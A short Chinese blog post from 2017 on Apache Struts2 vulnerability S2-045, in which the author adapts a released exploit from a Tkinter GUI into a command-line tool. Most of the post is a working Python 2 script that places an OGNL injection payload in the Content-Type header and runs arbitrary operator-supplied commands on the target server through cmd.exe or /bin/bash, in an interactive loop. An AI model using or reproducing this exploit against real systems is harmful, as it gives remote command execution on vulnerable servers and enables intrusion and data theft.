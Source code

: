 ```yaml
---
id: 91
title: s2-045
date: 2017-08-12T11:57:00+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

放出来的exp是用Tkinter 写的

给改了改改成命令行的 233333 有很多误报啊

<pre line="1">#encoding:utf-8
import urllib2
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
 
 
def poc(w_url):
    cmd = raw_input('command  \n')
    register_openers()
    header ={"image1": '23333'}
    header[
        "User-Agent"] = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header[
        "Content-Type"] = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='" + cmd + "').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(w_url, headers=header)
    response = urllib2.urlopen(request).read()
    print(response)
 
 
if __name__=='__main__':
    print 'blog :  http://www.cuijianxiong.com'
    w_url = raw_input('addrs : \n')
    is_shutdown = 1
    while is_shutdown == 1:
        poc(w_url)
</pre>

需要安装poster模块  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-300x113.png" alt="" width="300" height="113" class="alignnone size-medium wp-image-92" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-300x113.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-768x290.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-230x87.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-350x132.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-480x181.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8.png 816w" sizes="(max-width: 300px) 85vw, 300px" />